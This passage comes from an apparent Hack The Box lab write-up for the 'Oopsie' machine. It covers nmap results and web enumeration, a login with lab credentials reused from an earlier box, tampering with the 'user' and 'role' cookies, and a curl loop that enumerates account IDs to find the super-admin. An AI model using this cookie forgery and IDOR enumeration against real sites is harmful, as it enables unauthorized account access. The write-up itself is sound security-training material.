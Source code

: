 ```
2   206.66 ms 10.10.10.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 93.92 seconds
```

{{< vs 2 >}}

## Enumeration

Looks like its running ssh and an Apache server. Let's pull up the web page in Firefox.

{{< vs 2 >}}

{{< img src="/images/posts/security/htb-oopsie/landing-page.png" width="900" align="center">}}

{{< vs 3 >}}

None of the links seem to resolve to anything and there doesn't appear to be
any input boxes on the page. Pulling up inspect, we see inline scripts and
styling, and links to a few scripts. One sticks out as interesting: `login.js`.
Unfortunately, this doesn't resolve to anything, but the directory does!

{{< vs 3 >}}

{{< img src="/images/posts/security/htb-oopsie/login-page.png" width="900" align="center">}}

{{< vs 3 >}}

## Gaining a foothold

We're able to get in using the `admin` and `MEGACORP_4dm1n!!` credentials we got on the [last box](posts/security/htb-archetype/).

Poking around the site, we see that there is an account page, but it only lists
ours. Notable cookies are the 'user' and 'role' tokens. When loading the "Uploads"
section, we see that it requires 'super admin' rights. Unfortunately, changing the
role cookie alone does not seem to get us anywhere. We've got to find a user id
with super admin rights. Let's write a quick one-liner to enumerate some of the
available users using curl:

```
for i in {1..100}; do echo "===" $i "==="; curl -s -b "user=34322; role=admin" "http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id="$i | grep --color=no -i email | sed -e 's/<[^>]*>/ /g;s/Access ID  Name//g;s/Email//g;s/^[ ]*//;s/[ ]*$//'; done
```

{{< vs 1 >}}

This will come up with a few accounts, but the one that jumps out is the super admin:

```
=== 30 ===
86575  super admin  superadmin@megacorp.com
```

{{< vs 1 >}}

